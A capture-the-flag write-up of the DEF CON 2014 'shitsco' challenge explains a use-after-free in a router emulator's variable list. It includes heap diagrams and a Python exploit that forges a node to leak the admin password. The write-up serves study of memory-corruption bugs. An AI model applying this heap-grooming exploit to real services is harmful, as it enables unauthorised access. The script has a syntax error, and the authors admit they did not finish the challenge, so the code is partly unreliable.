 # DEF CON CTF Qualifier 2014: shitsco

**Category:** Gynophage
**Points:** 2
**Description:**

> [http://services.2014.shallweplayaga.me/shitsco_c8b1aa31679e945ee64bde1bdb19d035](shitsco_c8b1aa31679e945ee64bde1bdb19d035) is running at:
>
> `shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337`
>
> Capture the flag.

## Write-up

Shitsco is a small router emulator. It allows you to ping, to tracert, to use the shell (Yhea, right! :D) and to set and view variables.

As we smell a rat in the variable handling we look into it.

Variables get stored dynamically in a double linked list as shown next.

```c
struct node {
    char *name;
    char *value;
    struct node *next;
    struct node *prev;
};
```

If you create a couple of nodes and delete the first, its strings get freed, their pointers set to NULL but not the link to the next node. Further, commands like show will always start the traversal by the first node, which will succeed until the corresponding memory gets overwritten. Thats what we gonna exploit.

The key is to set variable name and value the same size as a node internally has -> 4 * 4bytes = 16bytes.
So that when adding nodes, the strings and the node itself consume the same amount of memory.


The following is the memory layout with 3 nodes added(= 3 variables set). Note that there is no first node. The first node is in static memory. Also, every allocated heap block has the same length(size).

```
--------------------------------------------------------------
                   /----link----\
HEAP: [ S ][ S ][ N ][ S ][ S ][ N ][ S ][ S ]    N = Node
                 ^                                S = String
                 |
first.next ------/
--------------------------------------------------------------
```

Because of a bug in the system, the first node never gets unlinked properly.
When we delete it, only the strings get freed and set to NULL. The *next pointer stays the same.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][ N ][ S ][ S ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

Deleting also the second results as depicted next.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

The linked list is still intact because the *next pointers never gets set to NULL when deleting the fist node in the list.

When we now create a new node, the system will use the first static node again and just looks to allocate memory for the name and value. As we created uni-sized blocks, the malloc algorithm would use simply the first two free blocks again. Better would have been, if we had set the first block to a smaller size, let's say 11bytes, so the allocations would be like below.


```
--------------------------------------------------------------
 small\          /----link----\
HEAP: [ ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ----/
--------------------------------------------------------------
```

If we create now a new variable with 16bytes strings, the malloc algorithm would shift right by one because the first block is too small for both. That results in having the value string in the location the *first.next pointer still points to. By using good values for the string and link pointers we can get the password out of the memory.

>set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))


```
--------------------------------------------------------------
                 /----link----\
HEAP: [ ][ S ][ X ][   ][   ][ N ][ S ][ S ]    X = Fake node
first.next ----/
--------------------------------------------------------------
```

After getting the password, we just have needed to use it
> enable SecretPassword
>
> flag

unfotunately, we were not able to solve it in time.


## exploit.py

Set ip and port and use it with ./exploit.py or ./exploit.py -d

```python
#!/bin/python2
import socket
from struct import pack
import logging
import sys

# SETTINGS
###################################
TARGET = 'shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337
#TARGET = 'localhost:5000'

PASSWORD_ADDR =  0x804c3a0
NULL_NODE_ADDR = 0x804c37c

# Don't touch things below
TCP_IP, TCP_PORT = TARGET.split(':')
TCP_PORT = int(TCP_PORT)

BUF_SIZE = 2000
MARKER = 'aaa: '

# LOGGING
logging.basicConfig(format='%(message)s')
log = logging.getLogger(__name__)
if '-d' in sys.argv: log.setLevel(logging.DEBUG)
else: log.setLevel(logging.INFO)
D = log.debug
I = log.info

# HELPERS
###################################
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TCP_IP, TCP_PORT))
    data = s.recv(BUF_SIZE)
    D(data)
    return s

def disconnect(s):
    s.send('quit\n')
    data = s.recv(BUF_SIZE)
    D(data)
    s.close()

def show(s):
    cmd = 'show'
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)
    D(data)
    return data

def set_var(s, name, value='1'):
    cmd = 'set %s %s' % ( name, value)
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

def del_var(s, name):
    cmd = 'set %s' % name
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

# MAIN
###################################
s = connect()

set_var(s, 'a' * 11, '01234567890ABCDEF')
set_var(s, 'b' * 16, 'AKABKN|OWNS!!!111')
set_var(s, 'C' * 16, 'XXXXXXXXXXXXXXXXX')

del_var(s, 'a' * 11)
del_var(s, 'b' * 16)

set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))

data = show(s)
found = data.find(MARKER) if data else 0

if found:
    I('Password: %s', data[found + len(MARKER):data.find('\n$')])

disconnect(s)
```

## Other write-ups

* <https://blog.skullsecurity.org/2014/defcon-quals-writeup-for-shitsco-use-after-free-vuln>
* <http://www.endgame.com/blog/defcon-capture-the-flag-qualification-challenge-1.html>

